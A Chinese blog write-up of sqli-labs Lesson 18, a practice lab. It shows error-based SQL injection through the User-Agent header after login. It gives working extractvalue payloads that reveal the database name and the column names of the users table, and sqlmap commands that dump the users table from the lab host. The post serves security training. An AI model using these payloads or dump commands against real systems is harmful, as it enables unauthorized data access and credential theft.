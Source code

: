 ```yaml
---
title: sqli-labs lession 18 POST基于错误的Uagent字段数据头注入
date: 2018-09-28 19:30:37
tags:
categories: sql注入
---
```

# sqli-labs lession 18 POST基于错误的Uagent字段数据头注入 #
---

## 登录界面 ##

![1](/img/sql/Lesson-18/1.png)

## 分析 ##

显示了咱的ip地址...嗯...测试了下Username和Password的输入数据,发现没有什么搞头。用个admin账号登录成功试了下。

![2](/img/sql/Lesson-18/2.png)

把我的User-Agent信息显示了出来。

User-Agent干什么用呢:

![3](/img/sql/Lesson-18/3.png)

`Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0`

对照一下手册查看信息

Mozilla/5.0 (platform; rv:geckoversion) Gecko/geckotrail Firefox/firefoxversion

* Mozilla/5.0 是一个通用标记符号，用来表示与 Mozilla 兼容，这几乎是现代浏览器的标配。
    
* platform 用来说明浏览器所运行的原生系统平台（例如 Windows、Mac、Linux 或 Android），以及是否运行在手机上。搭载 Firefox OS 的手机仅简单地使用了 "Mobile" 这个字符串；因为 web 本身就是平台。注意 platform 可能会包含多个使用 "; " 隔开的标记符号。
    
* rv:geckoversion 表示 Gecko 的发布版本号（例如  "17.0"）。在近期发布的版本中，geckoversion 表示的值与 firefoxversion 相同。
    
* Gecko/geckotrail 表示该浏览器基于 Gecko 渲染引擎。

* 在桌面浏览器中， geckotrail  是固定的字符串 "20100101" 。
    
* Firefox/firefoxversion 表示该浏览器是 Firefox，并且提供了版本号信息（例如  "17.0"）。

拿到了我的信息总要有点东西留给我的吧。

查看源码：

![4](/img/sql/Lesson-18/4.png)

对账户密码做了过滤,登录成功后接着又把ip地址和User-Agent信息保存下了数据库的`uagents`表中。

![5](/img/sql/Lesson-18/5.png)

因为插入User-Agent信息插入数据表的时候没有检查,可以在此处利用报错注入。

## 注入 ##

先用正确账号登录。

![6](/img/sql/Lesson-18/6.png)

再在`User-Agent`构造报错。

`Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0' and '1'='1`

检查出单引号闭合。

![7](/img/sql/Lesson-18/7.png)

payload:

`Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0' and  extractvalue(null,concat(0x7e,database(),0x7e)) and '1'='1`

![8](/img/sql/Lesson-18/8.png)

中间与Lesson-17一样,直接上获取列的图

![9](/img/sql/Lesson-18/9.png)

`Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0' and  extractvalue(null,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e)) and '1'='1`

## SQLMAP ##

<font color=red>
--leveal 

level: 设置检测的方方面面和测试用例, 默认是1,会尝试POST和GET, 2:Cookie也会加入检测, 3:User-Agent和Referer也会检测, 更大的值会增加用例量

--user-agent

指定User-Agent

--data

指定请求的内容

--threads

指定并发线程

--dbms

指定后端数据库,给定后端数据库的类型可以减少减少无关的测试用例.

--fresh-queries 

fresh-queries会忽略之前的查询结果,进行重新请求操作

--flush-session

flush-session会清空当前URL相关的session

</font>

`sqlmap -u http://10.60.250.66/sqlilabs/Less-18/ --data "uname=admin&passwd=admin&submit=Submit" --user-agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0' and '1'='1" --level 4 --threads 10 --dbms mysql --fresh-queries --flush-session`

![10](/img/sql/Lesson-18/10.png)

`sqlmap -u http://10.60.250.66/sqlilabs/Less-18/ --data "uname=admin&passwd=admin&submit=Submit" --user-agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0' and '1'='1" -D security -T users --columns --dump`

![11](/img/sql/Lesson-18/11.png)